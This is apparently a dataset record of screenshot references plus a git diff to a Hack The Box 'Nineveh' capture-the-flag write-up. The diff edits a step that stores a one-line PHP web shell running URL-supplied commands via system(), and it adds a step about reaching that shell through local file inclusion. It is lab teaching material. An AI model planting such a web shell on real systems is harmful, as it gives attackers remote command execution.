

Add new images

Changed region(s): [[0.0, 0.0291, 1.0, 0.9612], [0.5455, 0.4951, 0.5758, 0.5243]]

diff --git a/_writeups/2024/HTB/Nineveh.md b/_writeups/2024/HTB/Nineveh.md
@@ -385,7 +385,7 @@ In this case, we will create one named `exploit.php`:
 
 <br />
 
-2.- Create a new table in our database with our malicious php code:.
+### 2.- Create a new table in our database with our malicious php code:.
 
 <br />
 
@@ -402,9 +402,24 @@ Now we select the `"Type"` text, and enter the php code into the `"Default Value
 <br />
 
 ```php
-<?php system($_GET['cmd']); ?>
+<?php system($_GET["cmd"]); ?>
 ```
 ![11](../../../assets/images/Nineveh/11.png)
 
+<br />
+
+⚠ Note: Important to use double quotes `"` instead single quotes `'`.
 
 <br />
+
+### 3.- Run the cmd.php:
+
+<br />
+
+At this point, we have our all ready to run our `cmd.php`, but we need a `LFI` to access it, since its path is under `/var/tmp`:
+
+<br />
+
+
+
+
